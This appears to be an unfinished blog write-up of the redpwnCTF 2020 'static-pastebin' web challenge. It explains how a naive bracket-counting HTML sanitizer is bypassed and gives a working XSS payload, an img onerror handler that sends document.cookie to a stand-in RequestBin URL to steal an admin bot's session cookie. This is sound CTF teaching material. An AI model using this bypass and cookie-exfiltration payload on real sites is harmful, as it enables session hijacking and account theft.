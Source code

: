 ```yaml
---
layout: post
title: redpwnCTF 2020 - static-pastebin
excerpt: An in-depth look at static-pastebin from redpwnCTF 2020. (INSERT LONGER EXCERPT)
date: 2020-06-25
tags: redpwnCTF 2020, Web, JavaScript, Cookie Stealing, XSS, RequestBin
author: Noxtal
---
```

 <p align="center">
  <img height=85 src="https://i.imgur.com/hE3Cc7M.png"
 </p>

 An in-depth look at static-pastebin from redpwnCTF 2020. Huge thanks to **redpwn** for this awesome event!

-----

# Description
Web, 125 points 
<!-- TODO change point amount -->
> I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it [here]("https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin")

*Note: if this challenge is not disponible at the time you read this writeup, I've made a similar challenge hosted on my domain. You can find it [here](https://challenges.noxtal.com/redbook).*

# Solution
When we open the challenge's website, we can see a pastebin-like website on which you can create a *paste* and "publish it to the internet". Actually, after analyzing the code a bit, we can find that the *paste*'s URL is only `/paste/#` appended with the paste itself encoded as base64.

We have only got a text input and a button that allows us to reflect what we have typed on another page. This is a perfect playground for XSS. If you don't know XSS yet, I really suggest you learn more about it, as it is a really common attack in real-life scenarios. You can learn more about it on my [learning platform](https://learn.noxtal.com).

Let's test this idea by trying to inject an h1 tag in the *paste*.
<!-- (INSERT IMAGE) -->

Weirdly, it seems like the h1 tag wasn't reflected on the *paste*. That doesn't mean XSS is not possible, it only means that there may be a sanitizer implemented that we need to bypass. By looking at the source provided in Chrome's Developer Tools, we can find a JavaScript file named *script.js*.

```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

There is the sanitizer, the `clean()` function. As you can probably see, this function removes (or unless tries) to remove every string surrounded by brackets, thus HTML tags. 

## Sanitizer Bypass
We now need to bypass the sanitizer. Let's take a look at the code to figure out how to bypass it. The main loop loops over each character of the *paste*. Then comes the filters: there is a variable named `brackets` which keeps track of if the current character is in between brackets or not. If a less than bracket sign is encountered, this count goes up by 1. Else, if a greater than sign appears, the count goes down by 1. If the count is equal to 0, the current character is reflected on the *paste*. 

After a few bypass attempts, we can find that putting a greater than sign in front of the tag we want to inject, it will actually be reflected. This comes from the fact that this sign makes the count go down by 1, thus when the less than sign will be encountered the `brackets` variable is going to equal zero.

The only con with this technique is that we can only pass one tag, so no classic opening and closing tags. This is not really a problem when using *img* tags, as you will see later on.

## Cookie Stealing
In the challenge's description, we can see we are given an admin bot. The flag must be contained in that admin user. One of the main use of XSS is stealing cookies, meaning we may need to steal the admin bot's cookie. To steal cookies, we only need to inject a tag that requests a page we own with the cookies in the query and give that to the user we want to steal cookies from. This process can be done easily by the use of RequestBin.

RequestBin is a web application allowing you to create a special URL that logs every request made to it so you can analyze them. If we request a RequestBin URL and append `document.cookie` to it, we should get a request logged containing the cookie in the query logged. This is the final payload I came up with. It makes use of an image tag with the `src` parameter set to x and the `onerror` parameter to the JavaScript code we want to execute (in our case requesting the RequestBin link). The `src` parameter will create an error because it was set to an arbitrary value and will trigger the code specified in the `onerror` parameter.

```html
><img src=x onerror=this.src="REQUESTBIN_URL"+document.cookie/>
```

We finally need to put the payload in the paste and give the corresponding URL to the admin bot and we are done! The flag can be found as expected in the admin cookies.
(INSERT IMAGE)

That's all we got to do to solve this challenge. RedpwnCTF was really fun, even if the challenges were harder than other CTFs I played. Huge thanks to **redpwn** for this awesome event.

If this challenge is not disponible at the time you read this writeup, I've made a similar challenge hosted on my domain. You can find it [here](https://challenges.noxtal.com/redbook).

If you have any questions, feel free to contact me via [Twitter](https://twitter.com/noxtal_) or using any of the methods listed [here](https://writeups.noxtal.com/#/pages/about).